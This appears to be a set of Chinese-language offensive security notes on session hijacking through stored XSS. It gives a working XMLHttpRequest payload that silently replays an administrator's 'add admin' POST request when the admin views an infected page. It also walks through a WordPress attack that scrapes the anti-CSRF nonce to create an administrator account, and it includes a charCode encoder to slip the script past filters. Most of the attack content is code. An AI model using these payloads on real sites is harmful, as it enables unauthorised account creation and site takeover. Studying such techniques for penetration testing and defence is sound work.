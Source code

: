 ### 【会话劫持】

* **xss实现权限提升**
  * 首先需要一个存储型xss漏洞，例如留言板等等
  * 如果管理员进入后台将会被劫持
  * 例如：利用xss漏洞添加一个管理员账号，需要截取添加管理员账号时的http请求信息
  * 使用xmlhttp对象在后台发送这个请求
  * xss shellcode：
  ```js
  var request=false;
  if(window.XMLHttpRequest){
  request=new XMLHttpRequest();
  if(request.overrideMimeType){
  request.overrideMimeType('text/xml');
  }
  }
  else if(window.ActiveXObject){
  var versions=['Microsoft.XMLHTTP','MSXML.XMLHTTP','Microsoft.XMLHTTP','Msxml2.XMLHTTP.7.0','Msxml2.XMLHTTP.6.0','Msxml2.XMLHTTP.5.0','Msxml2.XMLHTTP.4.0','MSXML2.XMLHTTP.3.0','MSXML2.XMLHTTP'];
  for(var i=0;i<versions.length;i++){
  try{
  request=new ActiveXObject(versions[i]);
  } catch(e){}
  }
  }
  xmlhttp=request;
  add_admin();
  function add_admin(){
  var url="............./abc.asp"    //请求地址
  var params="................."     //提交的数据（截取管理员提交的post数据）
  xmlhttp.open("POST",url,true);
  xmlhttp.setRequestHeader("Content-type","application/x-www-form-urlencoded");
  xmlhttp.setRequestHeader("Content-length",params.length);
  xmlhttp.setRequestHeader("Connection","close");
  xmlhttp.send(params);
  }
  ```
  
* **wordpress中利用xss提权**
  * wordpress中含有nonce防护机制（每个http请求中包含nonce字段，防止csrf攻击）
  * 但是对于store xss，nonce并不起作用
  * 首先创建一个js函数，向创建用户url发送http请求，并且使用正则表达式找到nonce值
  * 拿到nonce值，则可以发送http请求创建一个拥有admin权限的用户
  * 上传jscode，防止坏字符
  首先将js代码改编为一行模式，使用网站：https://jscompress.com 工具
  
  * 使用encode函数加密js代码，防止发送过程中含有坏字符
  ```js
  function encode_to_javascript(string){
  var input=string
  var output="";
  for(pos=0;pos<input.length;pos++){
  output+=input.charCodeAt(pos);
  if(pos!=(input.length-1)){
  output+=","
  }
  }
  return output;
  }
  let encode=encode_to_javascript("js code")
  console.log(encode)
  ```
  